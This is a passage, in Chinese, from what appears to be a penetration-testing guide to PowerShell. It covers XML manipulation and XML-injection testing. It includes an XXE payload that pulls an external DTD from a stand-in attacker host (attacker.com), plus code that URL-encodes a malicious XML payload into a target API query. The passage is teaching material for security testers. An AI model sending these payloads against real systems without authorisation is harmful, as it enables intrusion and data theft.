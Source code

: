 在这个示例中，我们像之前一样读取和解析 XML 文件。然后，我们使用 **Where-Object** cmdlet 根据 name 属性过滤设置节点。一旦我们找到名称为 **theme** 的设置，我们将其值属性修改为 **light**。最后，我们使用 **Save** 方法将更新后的 XML 保存回文件。

## 构建 XML 负载

在渗透测试中，常常需要构建自定义 XML 负载来测试基于 XML 的漏洞，例如 **XML 外部实体** (**XXE**) 注入。让我们为测试一个应用程序的 XXE 漏洞构建一个 XML 负载：

```
 $payload = @"
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd">
%remote;
]>
<root>
    <data>Confidential information</data>
</root>
"@
# Save the payload to a file
$payloadFilePath = "C:\MyData\payload.xml"
$payload | Out-File -FilePath $payloadFilePath
```

在这个示例中，我们定义了一个包含外部实体声明的 XML 负载，该声明从攻击者的服务器获取外部的 **文档类型定义** (**DTD**) 文件。这是一个常见的 XXE 负载。然后，我们将该负载保存到一个文件中，以便用于测试 XXE 漏洞。

## XML 注入测试

渗透测试人员通常会测试 Web 应用程序的 XML 注入漏洞。PowerShell 可以用来构建和注入恶意 XML 负载到输入字段中，以评估应用程序的 XML 解析和验证机制。让我们构建一个恶意 XML 负载来测试 Web 应用程序中的 XML 注入漏洞：

```
 $maliciousPayload = @"
<root>
    <data>
        <name>John Smith</name>
        <age>30</age>
        <!-- XXE injection payload goes here -->
    </data>
</root>"@
$injectionPoint = "http://snowcapcyber.com/api/data?xml=" + [System.Web.HttpUtility]::UrlEncode($maliciousPayload)
```

在这个示例中，我们创建一个包含 XXE 注入负载的恶意 XML 负载，负载被嵌入在数据元素中。然后，我们将这个负载注入到 Web 应用程序的输入字段（由 **$injectionPoint** 表示）中，以测试应用程序是否容易受到 XXE 攻击。

# COM、WMI 和 .NET 在 PowerShell 中

渗透测试是网络安全中的一项关键活动，它涉及模拟现实世界中的攻击，以识别系统或网络中的漏洞和弱点。PowerShell 是一种多功能的脚本语言，原生支持 Windows 环境，因其灵活性、广泛的自动化功能以及与多种技术（如 COM、WMI 和 .NET）的互动能力，成为渗透测试人员的宝贵工具。在本节中，我们将探讨如何利用 PowerShell 与 COM 对象、WMI 查询和 .NET 程序集进行交互，并在渗透测试中加以应用。我们将涵盖诸如访问系统信息、查询 WMI 数据、与 COM 组件交互以及使用 .NET 程序集执行特定任务等场景。

## 使用 WMI 进行系统信息收集
